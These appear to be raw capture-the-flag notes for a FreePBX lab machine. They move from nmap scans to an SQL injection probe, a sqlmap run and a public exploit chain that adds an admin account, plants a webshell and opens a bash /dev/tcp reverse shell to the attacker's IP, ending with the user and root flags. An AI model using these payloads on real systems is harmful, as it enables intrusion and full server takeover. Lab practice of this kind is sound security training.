

# Connected

sudo nmap -sCV 10.129.14.224
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-15 15:58 EDT
Nmap scan report for connected.htb (10.129.14.224)
Host is up (0.020s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 4e:60:38:6f:e7:78:6c:ca:58:62:a1:f1:56:ae:8d:30 (RSA)
|   256 12:41:55:26:9d:ad:3d:e8:bf:4e:31:aa:d7:d1:a5:d2 (ECDSA)
|_  256 8e:b6:96:e0:21:83:5d:1d:ce:8d:e2:6a:dd:38:c6:75 (ED25519)
80/tcp  open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
| http-title: 404 Not Found
|*Requested resource was config.php
| http-robots.txt: 1 disallowed entry
|*/
443/tcp open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=pbxconnect/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2025-11-30T14:07:27
|*Not valid after:  2026-11-30T14:07:27
| http-robots.txt: 1 disallowed entry
|*/
| http-title: 404 Not Found
|_Requested resource was config.php

[https://github.com/portbuster1337/CVE-2026-46376](https://github.com/portbuster1337/CVE-2026-46376)



└──╼ [★]$ curl -i -k "[https://connected.htb/admin/ajax.php?module=FreePBX\modules\endpoint\ajax&command=model&template=x&model=model&brand=x'+AND+EXTRACTVALUE(1,CONCAT('~USER:',(SELECT+USER()),'~](https://connected.htb/admin/ajax.php?module=FreePBX%5Cmodules%5Cendpoint%5Cajax&command=model&template=x&model=model&brand=x%27+AND+EXTRACTVALUE(1,CONCAT(%27~USER:%27,(SELECT+USER()),%27~)'))+--+"
HTTP/1.1 500 Internal Server Error
Date: Tue, 16 Jun 2026 15:34:13 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
X-Powered-By: PHP/7.4.16
Set-Cookie: PHPSESSID=okl82c0k9p3q52gb1i6npesg54; expires=Thu, 16-Jul-2026 15:34:13 GMT; Max-Age=2592000; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Transfer-Encoding: chunked
Content-Type: application/json

{"error":{"type":"Exception","message":"SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~USER:freepbxuser@localhost~'::","file":"\/var\/www\/html\/admin\/libraries\/utility.functions.php","line":123}}

sqlmap "[https://connected.htb/admin/ajax.php?module=FreePBX\modules\endpoint\ajax&command=model&template=x&model=model&brand=x*](https://connected.htb/admin/ajax.php?module=FreePBX%5Cmodules%5Cendpoint%5Cajax&command=model&template=x&model=model&brand=x*)" --batch --level=5 --risk=3

available databases [3]:
[*] asterisk
[*] asteriskcdrdb
[*] information_schema

git clone [https://github.com/0xEhab/FreePBX-CVE-2025-57819-RCE.git](https://github.com/0xEhab/FreePBX-CVE-2025-57819-RCE.git)

┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-76vuvzktuv]─[~]
└──╼ [★]$ cd FreePBX-CVE-2025-57819-RCE/

python3 [exploit.py](http://exploit.py/) --rhost "connected.htb" --command "id"

██████████ █████                  █████
░░███░░░░░█░░███                  ░░███
░███  █ ░  ░███████   █████ █████ ░███████
░██████    ░███░░███ ░░███ ░░███  ░███░░███
░███░░█    ░███ ░███  ░░░█████░   ░███ ░███
░███ ░   █ ░███ ░███   ███░░░███  ░███ ░███
██████████ ████ █████ █████ █████ ████████
░░░░░░░░░░ ░░░░ ░░░░░ ░░░░░ ░░░░░ ░░░░░░░░

```
FreePBX 16 SQLi -> Admin -> RCE  (CVE-2025-57819 + CVE-2025-61678)
linkedin: ehxb /// medium.com/@Ehxb /// github 0xEHxb
```

[*] [CVE-2025-57819] creating admin via stacked SQLi: svc_szrb2:rb1nvtmfw5sw
[+] admin row inserted into ampusers
[*] logging into FreePBX admin panel
[+] authenticated as svc_szrb2
[*] [CVE-2025-61678] uploading webshell -> /eer43qhbpm/k4r0cahy.php
[+] webshell live: [https://connected.htb/eer43qhbpm/k4r0cahy.php](https://connected.htb/eer43qhbpm/k4r0cahy.php)
[*] executing: id
uid=999(asterisk) gid=1000(asterisk) groups=1000(asterisk)

python3 [exploit.py](http://exploit.py/) --rhost "connected.htb" --command "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.15.206/4444 0>&1'"

██████████ █████                  █████
░░███░░░░░█░░███                  ░░███
░███  █ ░  ░███████   █████ █████ ░███████
░██████    ░███░░███ ░░███ ░░███  ░███░░███
░███░░█    ░███ ░███  ░░░█████░   ░███ ░███
░███ ░   █ ░███ ░███   ███░░░███  ░███ ░███
██████████ ████ █████ █████ █████ ████████
░░░░░░░░░░ ░░░░ ░░░░░ ░░░░░ ░░░░░ ░░░░░░░░

```
FreePBX 16 SQLi -> Admin -> RCE  (CVE-2025-57819 + CVE-2025-61678)
linkedin: ehxb /// medium.com/@Ehxb /// github 0xEHxb
```

[*] [CVE-2025-57819] creating admin via stacked SQLi: svc_y655b:svzs1eiiiesv
[+] admin row inserted into ampusers
[*] logging into FreePBX admin panel
[+] authenticated as svc_y655b
[*] [CVE-2025-61678] uploading webshell -> /zwqzimhwh1/n3w1qwca.php
[+] webshell live: [https://connected.htb/zwqzimhwh1/n3w1qwca.php](https://connected.htb/zwqzimhwh1/n3w1qwca.php)
[*] executing: /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.15.206/4444 0>&1'

nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.245.100 58688
bash: no job control in this shell

---

|  *|                  | ___ \| ___ \\ \ / /
| |    _ __   ___   ___ | |/ /| |*/ / \ V /
|  *|  | '__| / _ \ / _ \|  __/ | ___ \ /   \
| |    | |   |  __/|  __/| |    | |*/ // /^\ \
\*|    |*|    \***| \***|\*|    \*___/ \/   \/

NOTICE! You have 3 notifications! Please log into the UI to see them!
Current Network Configuration
+-----------+-------------------+---------------------------+
| Interface | MAC Address       | IP Addresses              |
+-----------+-------------------+---------------------------+
| eth0      | A2:DE:AD:45:8E:F8 | 10.129.245.100            |
|           |                   | fe80::82bd:1bcb:a990:dd3b |
+-----------+-------------------+---------------------------+

Please note most tasks should be handled through the GUI.
You can access the GUI by typing one of the above IPs in to your web browser.
For support please visit:
[http://www.freepbx.org/support-and-professional-services](http://www.freepbx.org/support-and-professional-services)

+---------------------------------------------------------------------+
| This machine is not activated.  Activating your system ensures that |
| your machine is eligible for support and that it has the ability to |
| install Commercial Modules.                                         |
|                                                                     |
| If you already have a Deployment ID for this machine, simply run:   |
|                                                                     |
|    fwconsole sysadmin activate deploymentid                         |
|                                                                     |
| to assign that Deployment ID to this system. If this system is new, |
| please go to Activation (which is on the System Admin page in the   |
| Web UI) and create a new Deployment there.                          |
+---------------------------------------------------------------------+

[asterisk@connected zwqzimhwh1]$ id

id
uid=999(asterisk) gid=1000(asterisk) groups=1000(asterisk)
[asterisk@connected zwqzimhwh1]$ hostname
hostname
connected
[asterisk@connected zwqzimhwh1]$ python -c 'import pty;pty.spawn("/bin/bash")'

[asterisk@connected asterisk]$ cat user.txt
ad2a6e572fe5196ba254a0a9db97b29d

interesting linpeas output

╔══════════╣ Analyzing FTP Files (limit 70)
-rw-r--r--. 1 root root 621 Aug 19  2014 /etc/fail2ban/filter.d/vsftpd.conf
-rw-------. 1 root root 5116 Apr  1  2020 /etc/vsftpd/vsftpd.conf
-rw-r--r--. 1 root root 507 Feb  2  2008 /usr/share/doc/vsftpd-3.0.2/EXAMPLE/INTERNET_SITE/vsftpd.conf
anonymous_enable=YES
local_enable
write_enable
anon_upload_enable
anon_mkdir_write_enable
anon_other_write_enable

PHP_CONSOLE_PASSWORD=batteryhorsestaple

╔══════════╣ Useful software (T1082)
/usr/bin/base64
/usr/bin/curl
/usr/bin/g++
/usr/bin/gcc
/usr/bin/gdb
/usr/bin/lua
/usr/bin/make
/usr/bin/nc
/usr/bin/ncat
/usr/bin/nmap
/usr/bin/perl
/usr/bin/php
/usr/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/python3.6
/usr/bin/sudo
/usr/bin/wget

╔══════════╣ Installed Compilers (T1587.001)
gcc.x86_64                         4.8.5-39.el7                      @anaconda/7
gcc-c++.x86_64                     4.8.5-39.el7                      @anaconda/7
/usr/bin/gcc
/usr/bin/g++

[asterisk@connected /]$ nmap -sCV localhost

Starting Nmap 6.40 ( [http://nmap.org](http://nmap.org/) ) at 2026-06-16 19:22 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0013s latency).
Other addresses for localhost (not scanned): 127.0.0.1
Not shown: 994 closed ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 2048 4e:60:38:6f:e7:78:6c:ca:58:62:a1:f1:56:ae:8d:30 (RSA)
|_256 12:41:55:26:9d:ad:3d:e8:bf:4e:31:aa:d7:d1:a5:d2 (ECDSA)
25/tcp   open  smtp            Postfix smtpd
|_smtp-commands: connected.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp   open  http            Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
|_http-methods: No Allow or Public header in OPTIONS response (status code 301)
|_http-title: Did not follow redirect to [http://connected.htb/](http://connected.htb/)
443/tcp  open  ssl/http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
|*http-methods: No Allow or Public header in OPTIONS response (status code 302)
| http-robots.txt: 1 disallowed entry
|*/
| http-title: 400 Bad Request
|_Requested resource was /admin
| ssl-cert: Subject: commonName=pbxconnect/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2025-11-30T14:07:27+00:00
|_Not valid after:  2026-11-30T14:07:27+00:00
|_ssl-date: 2024-10-16T14:16:41+00:00; -1y243d5h08m06s from local time.
3306/tcp open  mysql           MySQL 5.5.65-MariaDB
| mysql-info: Protocol: 10
| Version: 5.5.65-MariaDB
| Thread ID: 31541
| Some Capabilities: Long Passwords, Connect with DB, Compress, ODBC, Transactions, Secure Connection
| Status: Autocommit
|_Salt: *%vJM$ji
4000/tcp open  remoteanything?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at [http://www.insecure.org/cgi-bin/servicefp-submit.cgi](http://www.insecure.org/cgi-bin/servicefp-submit.cgi) :
SF-Port4000-TCP:V=6.40%I=7%D=6/16%Time=6A31A269%P=x86_64-redhat-linux-gnu%
SF:r(GetRequest,E4,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x2
SF:0application/json;\x20charset=utf-8\r\nContent-Length:\x2062\r\nDate:\x
SF:20Tue,\x2016\x20Jun\x202026\x2009:25:46\x20GMT\r\nServer:\x20Python/3\.
SF:6\x20aiohttp/2\.2\.4\r\n\r\n{\"status\":\x20400,\x20\"message\":\x20\"V
SF:ega\x20to\x20proxy\x20to\x20isn't\x20specified\"}")%r(HTTPOptions,E4,"H
SF:TTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20application/json;
SF:\x20charset=utf-8\r\nContent-Length:\x2062\r\nDate:\x20Tue,\x2016\x20Ju
SF:n\x202026\x2009:25:48\x20GMT\r\nServer:\x20Python/3\.6\x20aiohttp/2\.2\
SF:.4\r\n\r\n{\"status\":\x20400,\x20\"message\":\x20\"Vega\x20to\x20proxy
SF:\x20to\x20isn't\x20specified\"}")%r(RTSPRequest,B6,"HTTP/1\.0\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCont
SF:ent-Length:\x2023\r\nDate:\x20Tue,\x2016\x20Jun\x202026\x2009:25:48\x20
SF:GMT\r\nServer:\x20Python/3\.6\x20aiohttp/2\.2\.4\r\n\r\ninvalid\x20cons
SF:tant\x20string")%r(RPCCheck,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2011\r\
SF:nDate:\x20Tue,\x2016\x20Jun\x202026\x2009:25:51\x20GMT\r\nServer:\x20Py
SF:thon/3\.6\x20aiohttp/2\.2\.4\r\n\r\nBad\x20Request")%r(DNSVersionBindRe
SF:q,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/html;
SF:\x20charset=utf-8\r\nContent-Length:\x2011\r\nDate:\x20Tue,\x2016\x20Ju
SF:n\x202026\x2009:25:53\x20GMT\r\nServer:\x20Python/3\.6\x20aiohttp/2\.2\
SF:.4\r\n\r\nBad\x20Request")%r(DNSStatusRequest,AA,"HTTP/1\.0\x20400\x20B
SF:ad\x20Request\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nConten
SF:t-Length:\x2011\r\nDate:\x20Tue,\x2016\x20Jun\x202026\x2009:25:56\x20GM
SF:T\r\nServer:\x20Python/3\.6\x20aiohttp/2\.2\.4\r\n\r\nBad\x20Request")%
SF:r(SSLSessionReq,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2011\r\nDate:\x20Tu
SF:e,\x2016\x20Jun\x202026\x2009:26:02\x20GMT\r\nServer:\x20Python/3\.6\x2
SF:0aiohttp/2\.2\.4\r\n\r\nBad\x20Request")%r(Kerberos,AA,"HTTP/1\.0\x2040
SF:0\x20Bad\x20Request\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\n
SF:Content-Length:\x2011\r\nDate:\x20Tue,\x2016\x20Jun\x202026\x2009:26:04
SF:\x20GMT\r\nServer:\x20Python/3\.6\x20aiohttp/2\.2\.4\r\n\r\nBad\x20Requ
SF:est");
Service Info: Host:  connected.localdomain

have to use chisel **v1.11.5**

redis cli

nc -lvnp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.15.81 42712
bash: no job control in this shell

---

|  *|                  | ___ \| ___ \\ \ / /
| |    _ __   ___   ___ | |/ /| |*/ / \ V /
|  *|  | '__| / _ \ / _ \|  __/ | ___ \ /   \
| |    | |   |  __/|  __/| |    | |*/ // /^\ \
\*|    |*|    \***| \***|\*|    \*___/ \/   \/

NOTICE! You have 3 notifications! Please log into the UI to see them!
Current Network Configuration
+-----------+-------------------+---------------------------+
| Interface | MAC Address       | IP Addresses              |
+-----------+-------------------+---------------------------+
| eth0      | A2:DE:AD:4A:D5:48 | 10.129.15.81              |
|           |                   | fe80::82bd:1bcb:a990:dd3b |
+-----------+-------------------+---------------------------+

Please note most tasks should be handled through the GUI.
You can access the GUI by typing one of the above IPs in to your web browser.
For support please visit:
[http://www.freepbx.org/support-and-professional-services](http://www.freepbx.org/support-and-professional-services)

+---------------------------------------------------------------------+
| This machine is not activated.  Activating your system ensures that |
| your machine is eligible for support and that it has the ability to |
| install Commercial Modules.                                         |
|                                                                     |
| If you already have a Deployment ID for this machine, simply run:   |
|                                                                     |
|    fwconsole sysadmin activate deploymentid                         |
|                                                                     |
| to assign that Deployment ID to this system. If this system is new, |
| please go to Activation (which is on the System Admin page in the   |
| Web UI) and create a new Deployment there.                          |
+---------------------------------------------------------------------+

[root@connected /]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@connected /]# cd /root
cd /root
[root@connected root]# cat root.txt
cat root.txt
3423303e804a448296e6c134be519a91
[root@connected root]#